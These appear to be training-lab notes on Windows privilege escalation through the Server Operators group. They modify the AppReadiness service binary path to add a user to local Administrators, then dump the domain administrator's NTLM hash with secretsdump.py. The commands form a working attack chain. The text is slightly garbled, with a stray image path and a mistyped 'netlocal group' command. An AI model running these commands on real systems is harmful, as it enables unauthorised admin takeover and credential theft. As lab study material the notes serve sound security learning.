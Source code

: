 Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.
# Querying the AppReadiness Service
```
sc qc AppReadiness
```
We can confirm that this service starts as SYSTEM 
## Checking Service Permissions with PsService
```
C:\htb> c:\Tools\PsService.exe security AppReadiness
```
This confirms that the Server Operators group has SERVICE_ALL_ACCESS access right, which gives us full control over this service.
## Modifying the Service Binary Path
change the binary path to execute a command which adds our current user to the default local administrators group
```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
## Starting the Service
Starting the service fails, which is expected.
## Confirming Local Admin Group Membership
If we check the membership of the administrators group, we see that the command was executed successfully.
```
netlocal group Administrators
```
NOTE: You have to Sign OUT and then Sign back IN for the modification to take effect
## Retrieving NTLM Password Hashes from the Domain Controller
```
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```